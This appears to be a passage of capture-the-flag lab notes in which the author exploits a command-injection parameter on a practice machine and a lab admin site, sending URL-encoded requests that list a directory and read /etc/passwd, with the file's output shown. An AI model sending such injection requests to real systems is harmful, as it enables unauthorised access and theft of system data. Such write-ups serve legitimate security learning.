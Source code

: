 
<hr>

Now we have access to administrator subdomain, so that we can fuzz for remote code execution and attempt to identify a 
specific parameter that you can exploit to gain arbitrary access to the machine.

In the practice section we can read the data easily
We can use online encoding otherwise there's always a option to do that in burp suite
https://www.urlencoder.org/

```
http://localhost:8080/rce.php?cmd=ls%20-la%20
```
```
Hello drwxr-xr-x 2 root root 4096 Nov 11 2020 secretdir
```
![[Pasted image 20240204124629.png]]


Let's see how we can exploit it in the admin site
1st will login in to the website and than will attempt to find the RCE vulnerability
![[Pasted image 20231007184745.png]]

```
http://admin.holo.live/dashboard.php?cmd=cat%20%2Fetc%2Fpasswd
```

```
http://admin.holo.live/dashboard.php?cmd=cat%20/etc/passwd%22%22

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false 
```

Keep in mind that we have many parameter we can use to gather information
![[Pasted image 20231007185003.png]]
